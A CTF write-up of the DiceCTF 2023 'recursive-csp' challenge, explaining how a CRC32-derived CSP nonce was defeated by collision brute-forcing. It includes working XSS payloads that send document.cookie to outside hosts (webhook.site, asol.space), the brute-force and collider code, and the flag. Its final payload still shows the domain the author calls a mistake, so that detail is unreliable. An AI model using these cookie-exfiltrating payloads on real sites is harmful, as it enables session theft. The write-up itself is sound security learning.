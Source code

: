 ```yaml
---
Title: Recursive-csp - DiceCTF 2023
Date: 2023-02-08T00:00:00+05:30
Tags: [web, csp, dicectf23-writeups, ctf, writeup, nonce, hash-collision]
Categories: [dicectf23-writeups,All Writeups]
Authors: [Rohit]

twemoji: true
---
```


#### tl;dr

  - Craft a payload with a random nonce
  - Use something like hash-collider to collide the nonce we gave earlier

<!--more-->

## Description

the nonce isn't random, so how hard could this be?

(the flag is in the admin bot's cookie)

- **Author** : strellic
- **Category** : Web
- **Points** : 115
- **Solves** : 178

## Solution

### Understanding the challenge

Here we get the source for `\?source` 

```php
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```

It's a simple XSS Challenge in PHP. The catch is that there is a [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce) that prevents us from getting XSS directly and the nonce is basically the [crc32](https://www.php.net/manual/en/function.crc32.php) hash of our payload. But our payload must contain the [nonce](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce)

Basically `We should have the crc32 hash of the WHOLE MESSAGE inside the MESSAGE`

### Trying the Bruteforce

For a while, we were trying to brute force the nonce, hoping it will be the same at least one time since the crc32 has only 8 bytes.

```php
<?php
for ($i = 0; $i <= 0xffffffff; $i++) {
  $x=sprintf("%08x", $i);
  $y='<script nonce="'.$x.'">window.location="https://webhook.site/a0a221c5-6a61-4ff6-a1f5-438ed5ce9403/?x="+document.cookie</script>';
  echo $y;

  $z=hash("crc32b", $y);

  if($z===$x){
    echo "found";
    exit();
  }

  echo "\n";
}
?>
```

But this never worked out :cry: 

We tried this so for so long and while it was running we searched for other ways.

### Trying the collider

So we searched for `crc32` collissions and got [this](https://github.com/fyxme/crc-32-hash-collider)

```go
func AddLetter(c chan string, combo string, alphabet string, length int) {
	// Check if we reached the length limit
	// If so, we just return without adding anything
	if length <= 0 {
		return
	}

	var newCombo string
	for _, ch := range alphabet {
		newCombo = combo + string(ch)
		c <- newCombo
		AddLetter(c, newCombo, alphabet, length-1)
	}
}

func worker(wChan chan string, target uint32) {
	for tString := range wChan {
		if crc32.ChecksumIEEE([]byte(tString)) == target {
			fmt.Println("Collision found:", tString)
		}
	}
}
```

This is just a crc32 hash collider written in go. It will start with a String and append as many characters as `maxLen` would allow and try if the hash matches. So all that was left was for us to decide on a nonce and give its corresponding integer as the `target` in the code.

**Note: Here we had to use a domain as the payload can only contain 127 characters and if we use webhook url we won't have enough charcters left to bruteforce**

By running the code on 16 different laptops with 16 cores with 16 different nonces, we were able to collide it just in time.

```html
<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>000000000000000000000000000000000048io
```

But we made one mistake in the domain to which the flag is sent. Where the domain was supposed to be `https://axol.space` I put `https://asol.space` :sob:

Now we had to put the correct domain and hash it again. This time it took even longer. It took so much time that we were just going to buy `https://asol.space`. But we collided that payload too and finally got the flag

```html 
<script nonce="e6377dcb">window.location="http://asol.space?x="+document.cookie</script>0000000000hytza
```

**Flag**: `dice{h0pe_that_d1dnt_take_too_l0ng}`
